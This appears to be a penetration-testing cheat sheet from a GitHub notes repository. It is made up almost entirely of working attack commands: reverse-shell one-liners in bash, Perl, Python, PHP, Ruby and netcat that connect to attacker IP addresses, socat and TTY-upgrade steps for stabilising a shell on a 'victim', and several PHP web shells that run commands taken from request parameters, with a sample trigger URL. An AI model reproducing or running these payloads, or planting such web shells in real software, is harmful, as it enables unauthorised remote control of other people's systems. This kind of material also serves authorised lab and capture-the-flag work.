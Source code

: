 # Reverse Shells

```bash
# BASH
bash -i >& /dev/tcp/10.10.14.2/443 0>&1

# PERL
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# PYTHON
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

# RUBY
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# NETCAT
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Upgrade TTY

```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z

# In Kali - ZSH
stty raw -echo; fg

# In reverse shell
export SHELL=bash
export TERM=xterm-256color

# Fix rows & columns
stty -a                              # Local shell
stty rows <num> columns <cols>       # Victim shell
```

### Using SOCAT

```bash
# In Kali
socat file:`tty`,raw,echo=0 tcp-listen:4444

# In Target
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Using Script

```bash
script -q /dev/null sh
Ctrl+Z

# In Kali - ZSH
stty raw -echo; fg

# In Kali - BASH
stty raw -echo
fg

export TERM=xterm-256color
```

## PHP Simple RCE

```php
<?php
$cmd=shell_exec($_REQUEST['cmd']);
echo $cmd;
?>
```

**Trigger:** [http://10.10.10.x/uploads/rce.php?cmd=whoami](http://10.10.10.x/uploads/shell.php?cmd=whoami)

## Other PHP RCE examples

```php
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd); ?>
<?php $cmd= $_GET['code']; eval($code); ?>
```